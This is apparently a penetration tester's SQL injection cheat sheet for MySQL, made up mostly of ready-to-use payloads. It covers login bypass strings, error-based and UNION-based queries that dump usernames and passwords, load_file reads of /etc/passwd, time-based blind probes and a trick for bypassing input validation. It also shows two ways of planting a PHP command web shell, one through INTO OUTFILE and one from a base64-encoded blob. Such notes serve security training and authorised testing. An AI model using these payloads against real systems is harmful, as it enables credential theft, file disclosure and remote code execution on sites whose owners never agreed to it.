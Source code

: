 # SQL Injection

**References:**

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [pentestmonkey](https://pentestmonkey.net/category/cheat-sheet/sql-injection)
- [PortSwigger Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [invicti](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)

**Key Concept:** We start with a baseline of expected output, then attempt to error the database or extract information based on deviations from this expected output. These deviations can include anything from an on-screen error, to entirely different HTTP response codes.

**Note:** We can try adding semicolons before comments in case commands are not working

## Methodology

### Identification

Once we realize SQLi is possible by erroring the site, the **first thing** we need to do is figure out how to do is **inject data in the query without breaking it.**

**Example entrypoints:**

```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```

**Note:** For long pages, simply scroll to the bottom of burp and monitor when the number of lines changes in the page.

We can now confirm existence with numerical/string comparison:

```mysql
# Confirm with numerical comparison
' OR 1=1 -- //
'
# Confirm with string comparison
' OR '1'='1' -- //
```

### Error-based Payloads vs Authentication Queries

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
' OR 1=1 in (SELECT @@version) -- //
'
# We can now attempt to dump table information
' OR 1=1 in (SELECT * FROM users) -- //
'
# In the case where we can only query one column at a time
' OR 1=1 in (SELECT password FROM users) -- //
'
# We can now specify a user to dump the password for
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Refer to [pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) for additional example queries

### UNION-based payloads vs Search Queries

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

```mysql
# We first use ORDER BY and increment until we receive an error
' ORDER BY 1 -- //
' ORDER BY 1,2 -- //
' ORDER BY 1,2,3 -- //
' ORDER BY 1,2,3,4 -- //
' ORDER BY 1,2,3,4,5 -- //
' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can now check to see which values are being returned by providing each column with an identifier that we can quickly index and check for in the response
' UNION SELECT 'Col1', 'Col2', 'Col3', 'Col4', 'Col5', 'Col6' -- //
' UNION SELECT CONCAT('Col', 1), CONCAT('Col', 2), CONCAT('Col', 3), CONCAT('Col', 4), CONCAT('Col', 5), CONCAT('Col', 6) -- //

# We can now rearange our statement to first query baseline information
' UNION SELECT null, database(), user(), @@version, null -- //
'
# Now we can query all databases available for us to enumerate (note: information_schema is default)
' UNION SELECT null, schema_name, null, null, null FROM information_schema.schemata -- //
'
# We can now query tables for our desired databases
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema=database() -- //
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='another_db' -- //

# We can now query columns for our desired table
' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema=database() -- //
'
# We now have all the information we need to query table data
' UNION SELECT null, username, password, description, null FROM users -- //
' UNION SELECT null, username, password, description, null FROM users WHERE username='admin' -- //

# LFI (also works in error payload)
' UNION SELECT null, load_file('/etc/passwd'), null, null, null -- //
' UNION SELECT null, load_file('../../../../../../etc/passwd'), null, null, null -- //

# RCE (doesn't matter if PHP code is in viewable column)
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/shell.php" -- //
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Blind SQL Injections

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
' AND IF (1=1, sleep(2),'false') -- //
```

## Additional Concepts

UNION-based attacks can be successful against an individual product page when performed using primary keys/ID's that don't exist as querying an undefined row will simply union the provided columns and return the values provided in the request (as they were originally undefined).

In the following UNION-based example, the product of ID 999 does not exist, leading to the union attack exposing the vesion within the output (as the corresponding unioned row)

```mysql
999' UNION SELECT 1,@@version,3,4,5,6,7,8 -- //
```

### SQLI2RCE

Figure out what directory you have write permissions to (MySQL is /var/lib/mysql)

```mysql
'; select from_base64("PD9waHAKc3lzdGVtKCRfR0VUWydjbWQnXSk7Cj8+Cg==") into dumpfile '/var/lib/mysql/shell.php' -- //
```

Requires a method of executing the file (LFI, CSRF, etc.)
